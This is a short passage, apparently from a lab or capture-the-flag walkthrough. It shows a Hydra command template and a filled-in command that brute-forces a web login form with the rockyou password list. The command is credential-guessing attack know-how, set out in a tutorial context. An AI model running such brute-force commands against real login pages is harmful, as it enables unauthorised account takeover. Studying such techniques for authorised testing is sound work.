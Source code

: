 ```
sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"
```
After filling in the placeholders, here’s our actual command!

```
sudo hydra -s 80 -L ~/path/to/our/nameslist -P /usr/share/wordlists/rockyou.txt <our target> https-post-form "/login/index.php:username=^USER^&password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
